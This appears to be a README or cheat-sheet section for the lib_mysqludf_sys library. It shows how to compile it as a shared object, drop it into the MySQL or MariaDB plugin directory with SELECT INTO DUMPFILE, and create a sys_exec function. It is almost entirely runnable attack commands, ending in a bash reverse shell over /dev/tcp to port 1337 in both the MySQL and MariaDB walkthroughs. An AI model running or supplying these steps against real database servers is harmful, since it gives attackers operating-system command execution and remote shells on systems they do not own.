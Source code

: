 Compile `.so` library (x86 example):

```
$ sudo apt install libc6-dev-i386 -y
$ gcc lib_mysqludf_sys.c -o lib_mysqludf_sys_x86.so -m32 -Wl,--hash-style=both -fPIC -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/server/private -I. -shared -L/usr/lib/x86_64-linux-gnu/libstdc++.so.6
```

Compile `.so` library (x64 example):

```
$ gcc lib_mysqludf_sys.c -o lib_mysqludf_sys_x64.so -m64 -Wl,--hash-style=both -fPIC -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/server/private -I. -shared -L/usr/lib/x86_64-linux-gnu/libstdc++.so.6
```

Convert library to hex:

```
$ xxd -p lib_mysqludf_sys.so | tr -d '\n'
```

Load library and call user-defined `sys_exec` function with a rev-shell.

MySQL (x86 example):

```
mysql> use mysql;
mysql> create table pwn(line blob);
mysql> insert into pwn values(load_file('/tmp/lib_mysqludf_sys_x86.so'));
mysql> select * from pwn into dumpfile '/usr/lib/lib_mysqludf_sys_x86.so';

Or load it from hex:
mysql> set @pwn = '7F..00';
mysql> select unhex(@pwn) into dumpfile '/usr/lib/lib_mysqludf_sys_x86.so';

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_x86.so';
mysql> select sys_exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");
```

MariaDB (x64 example):

```
MariaDB> show variables like '%plugin%';  # get lib path
MariaDB> use mysql;
MariaDB> create table pwn(line blob);
MariaDB> insert into pwn values(load_file('/tmp/lib_mysqludf_sys_x64.so'));
MariaDB> select * from pwn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_x64.so';

Or load it from hex:
MariaDB> set @pwn = 0x7F..00;
MariaDB> select binary @pwn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys_x64.so';

MariaDB> create function sys_exec returns integer soname 'lib_mysqludf_sys_x64.so';
MariaDB> select sys_exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1'");
```
